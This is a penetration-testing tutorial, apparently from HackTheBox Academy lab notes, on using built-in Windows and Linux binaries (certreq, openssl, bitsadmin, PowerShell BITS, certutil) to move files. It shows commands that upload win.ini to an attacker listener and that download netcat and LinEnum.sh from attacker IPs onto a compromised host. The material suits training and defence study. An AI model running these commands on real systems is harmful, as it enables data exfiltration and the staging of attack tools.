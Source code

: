 # Living off The Land

The phrase "Living off the land" was coined by Christopher Campbell [@obscuresec](https://twitter.com/obscuresec) & Matt Graeber [@mattifestation](https://twitter.com/mattifestation) at [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).

The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. There are currently two websites that aggregate information on Living off the Land binaries:

* [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
* [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

Living off the Land binaries can be used to perform functions such as:

* Download
* Upload
* Command Execution
* File Read
* File Write
* Bypasses

This section will focus on using LOLBAS and GTFOBins projects and provide examples for download and upload functions on Windows & Linux systems.

## Using the LOLBAS and GTFOBins Project

[LOLBAS for Windows](https://lolbas-project.github.io) and [GTFOBins for Linux](https://gtfobins.github.io/) are websites where we can search for binaries we can use for different functions.

## LOLBAS

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (70).png" alt=""><figcaption></figcaption></figure>

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

### **Upload win.ini to our Pwnbox**

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

```shell-session
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

This will send the file to our Netcat session, and we can copy-paste its contents.

### **File Received in our Netcat Session**

```shell-session
al1abb@htb[/htb]$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If you get an error when running `certreq.exe`, the version you are using may not contain the `-Post` parameter. You can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.

## GTFOBins

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (71).png" alt=""><figcaption></figcaption></figure>

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

### **Create Certificate in our Pwnbox**

We need to create a certificate and start a server in our Pwnbox.

```shell-session
al1abb@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

### **Stand up the Server in our Pwnbox**

```bash
al1abb@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

### **Download File from the Compromised Machine**

Next, with the server running, we need to download the file from the compromised machine.

```bash
al1abb@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land tools:

## Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

### **File Download with Bitsadmin**

```powershell
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

### **Download**

```powershell
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

## Certutil

Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

### **Download a File with Certutil**

```shell-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```
